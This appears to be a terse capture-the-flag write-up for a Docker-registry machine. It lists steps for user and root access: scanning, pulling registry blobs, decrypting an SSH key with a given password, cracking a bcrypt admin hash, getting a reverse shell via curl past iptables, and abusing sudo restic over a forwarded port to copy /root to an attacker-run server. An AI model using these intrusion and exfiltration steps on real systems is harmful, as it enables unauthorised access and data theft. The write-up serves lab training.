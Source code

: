                                                                   USER
                                                                  
                                                                  
Perform a nmap scan to get the domain we need to use I.e docker.registry.htb 

http://docker.registry.htb/v2/ and see how to extract all blobs . 

 See docker_image_fetch.py for juicy URLs 
 
 Now  use GkOcz221Ftb3ugog as password to decrypt ssh key and login using it as bolt 
 
 
 
                                                                  ROOT  
                                                                  
                                                                  
Visit /bolt/bolt to get login page and crack the bcrypt hash to login as admin:strawberry 

Then for reverse shell as www-data we need to bypass iptables so set up a listener in bolt ssh session and get reverse shell using curl as bolt. 

Sudo –l  

ssh -R 8000:127.0.0.1:8000 -i id_rsa bolt@registry.htb for remote port forwarding (not Local as we wanted to set connection from bolt to my pc not vice versa) 

Set up docker container and start restic server on kali and then run sudo /usr/bin/restic backup -r rest:http://admin:admin@127.0.0.1:8000/root/ to get root copy 
